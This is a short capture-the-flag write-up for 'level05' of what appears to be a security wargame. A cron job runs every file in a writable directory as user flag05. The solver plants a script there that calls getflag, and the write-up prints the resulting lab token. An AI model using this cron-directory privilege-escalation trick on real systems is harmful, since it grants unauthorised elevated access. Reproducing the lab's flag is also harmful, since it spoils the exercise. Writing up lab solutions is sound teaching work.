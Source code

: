 # level05 solution
On login to the level via ssh new mail message notification appears. This message contains:

	*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

It is a crontab entry for flag05 user to lauch script every 2nd minute. Next step we can check contence of this script:

	for i in /opt/openarenaserver/* ; do
		(ulimit -t 5; bash -x "$i")
		rm -f "$i"
	done

This script runs through /opt/openarenaserver and executes every file which this directory contains. We can create our own script and copy it in /opt/openarenaserver to be executed under flag05 user:

	#!/bin/bash
	/bin/getflag > /tmp/level05_token

After a minute we check if our token file had been created:
	
	cat /tmp/level05_token
	Check flag.Here is your token : viuaaale9huek52boumoomioc

